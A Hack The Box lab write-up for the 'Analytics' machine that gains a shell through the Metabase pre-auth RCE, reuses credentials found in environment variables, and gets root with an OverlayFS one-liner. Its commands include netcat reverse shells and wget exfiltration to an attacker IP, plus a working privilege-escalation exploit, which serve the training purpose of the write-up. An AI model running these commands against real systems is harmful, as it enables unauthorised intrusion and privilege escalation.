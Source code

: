 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Analytics](https://app.hackthebox.com/machines/Analytics)

> [!tip]- Summary with Spoilers
> 1. **Metabase Pre-Auth RCE (CVE-2023-38646)**
> I discovered a public exploit for Metabase, which allowed me to run commands without authentication. After compiling the Rust PoC, I got a reverse shell by leveraging `busybox nc` within the container’s Alpine environment.
>
> 2. **Obtaining Credentials**
   Once I had shell access as the `metabase` user, I found environment variables containing `metalytics` account credentials. I reused those credentials via SSH to gain a stable foothold as `metalytics` and retrieved the user flag.
>
> 3. **OverlayFS Exploit for Privilege Escalation**
   The server kernel was vulnerable to OverlayFS (CVE-2023-2640 / CVE-2023-32629). I used a one-liner exploit that granted me `root` privileges, letting me read the root flag.

## Enumeration

```console
$ nmap -n -sCV -T4 -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 14:34 CST
Nmap scan report for 10.10.11.233
Host is up (0.21s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.15 seconds
```

Port 80 redirects to host `analytical.htb`, so I added that to `/etc/hosts`.

The page had a "Login" button, which redirected to `data.analytical.htb`, so I also added that to `/etc/hosts`.

<http://data.analytical.htb/auth/login>:

![](_/htb-analytics-20231010-1.png)

## Exploitation

[Metabase](https://www.metabase.com/) has a recent [pre-auth RCE](https://github.com/joaoviictorti/CVE-2023-38646) vulnerability.

`"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`

There is a [PoC for the vulnerability](https://github.com/joaoviictorti/CVE-2023-38646) available, but it's in Rust and I had some trouble getting it to compile on Kali.

The version of `cargo` on Kali is currently 1.65.0, which wasn't sufficient for the PoC, so I installed version 1.73.0 in userspace. Still, it complained about an error with the OpenSSL depency. To fix that, I added this to the `[dependencies]` section of `Cargo.toml`:

```console
openssl = { version = "0.10", features = ["vendored"] }
```

I started a `nc` listener on port 443 and tried the exploit:

```console
$ cargo run -- --url http://data.analytical.htb --command 'nc 10.10.16.5 443 -e sh'
    Finished dev [unoptimized + debuginfo] target(s) in 1.25s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'nc 10.10.16.5 443 -e sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

The exploit completes, however the listener sees a connection that immediately exits.

I was able to do some slow and awkward recon by passing simple commands to `wget` where I could view the results via Python3 `http.server`:

```console
$ cargo run -- --url http://data.analytical.htb --command 'wget http://10.10.16.5:8888/`whoami`'
```

And on the server:

```console
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.233 - - [10/Oct/2023 10:53:38] code 404, message File not found
10.10.11.233 - - [10/Oct/2023 10:53:38] "GET /metabase HTTP/1.1" 404 -
```

Via that method, I was able to determine the box was running [Alpine Linux](https://www.alpinelinux.org/) in a relatively minimal environment. That information is also discoverable via the [Metabase dockerfile](https://github.com/metabase/metabase/blob/master/Dockerfile), if you know where to look.

Eventually I discovered that running the commands via `busybox` solved the problem:

```console
$ cargo run -- --url http://data.analytical.htb --command 'busybox nc 10.10.16.5 443 -e busybox sh'
    Finished dev [unoptimized + debuginfo] target(s) in 0.06s
     Running `target/debug/cve_2023_38646 --url 'http://data.analytical.htb' --command 'busybox nc 10.10.16.5 443 -e busybox sh'`
[+] Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[+] Exploit Success!
```

And on the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.233] 35149
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```

There are some interesting files in the container, notably `metabase.db.mv.db`, which (I think) is the H2 database to bootstrap the application. I transferred it and the `jar` file for the app (`/app/metabase.jar`) to my machine using `nc`. Running `strings` on the database turned up a user login and password hash:

```text
metalytics@data.htbJJohnnyISmith
<$2a$10$HnyM8[...]
```

I started `john` with `rockyou.txt` but ultimately never recovered the password, but I didn't need it, because the environment had what I needed:

```console
env | grep META
META_PASS=An4lyt[...]
META_USER=metalytics
```

Thanks to password-reuse I was able to login to the target:

```console
$ ssh metalytics@$t
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
[...]

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41

metalytics@analytics:~$ cat user.txt
1face9[...]
```

## Escalation

### Looney Tunables?

```console
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

metalytics@analytics:~$ cat /etc/issue
Ubuntu 22.04.3 LTS \n \l
```

This host appears vulnerable to the [Looney Tunables buffer overflow](https://www.qualys.com/2023/10/03/cve-2023-4911/looney-tunables-local-privilege-escalation-glibc-ld-so.txt), an vulnerability exploitable via the `GLIBC_TUNABLES` environmental variable.

[CrowdSec has a nice write-up](https://www.crowdsec.net/blog/detect-looney-tunables-exploitation-attempts), which includes a way to verify that the host is vulnerable:

```console
metalytics@analytics:~$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped)
```

A [PoC is available for the Looney Tunables bug](https://github.com/RickdeJager/CVE-2023-4911), but this target doesn't have `gcc` and it's not the cleanest exploit; i.e., it takes five minutes to complete on Ubuntu.

But there's a quicker option.

## OverlayFS Exploit

The target is vulnerable to [CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) and [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629). The exploit is a one-liner:

```console

metalytics@analytics:/tmp/t$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("sh")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
## id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
## cat /root/root.txt
127e2e[...]
```
